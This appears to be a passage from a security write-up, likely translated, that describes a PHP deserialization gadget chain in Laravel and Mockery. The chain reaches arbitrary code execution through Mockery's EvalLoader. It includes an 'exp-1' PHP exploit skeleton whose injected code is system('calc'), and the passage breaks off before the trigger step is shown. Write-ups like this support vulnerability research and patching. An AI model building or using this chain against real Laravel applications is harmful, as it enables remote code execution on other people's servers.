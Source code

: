 ## POC Chain-6
> Continue to continue the `call_user_func()` method in the previous chain. Since the variables here are controllable, you can call methods of any class and follow up with the `load()` method in `library/Mockery/Loader/EvalLoader.php`. If you do not enter the if loop and trigger the `getCode()` method, you can cause any code execution vulnerability.

<img src="./images/poc-6-1.png" alt="">

> Look at the judgment conditions of the if loop and follow up the call. Since the last `$this->name` is controllable, you only need to assign it a non-existent class name value. There are many available `getName()` methods, just choose one that can be used.

<img src="./images/poc-6-2.png" alt="">

<img src="./images/poc-6-3.png" alt="">

### exp-1
```php
<?php
namespace Mockery\Generator {
    class MockConfiguration {
        protected $name = 'H3rmesk1t';
    }
    class MockDefinition {
        protected $config;
        protected $code;
        public function __construct() {
            $this->config = new MockConfiguration();
            $this->code = "<?php system('calc');?>";
        }
    }
}

namespace Mockery\Loader {
    class EvalLoader {}
}

namespace Illuminate\Bus {
    use Mockery\Loader\EvalLoader;
    class Dispatcher {
        protected $queueResolver;
        public function __construct() {
            $this->queueResolver = [new EvalLoader(), 'load'];
        }
}
}

```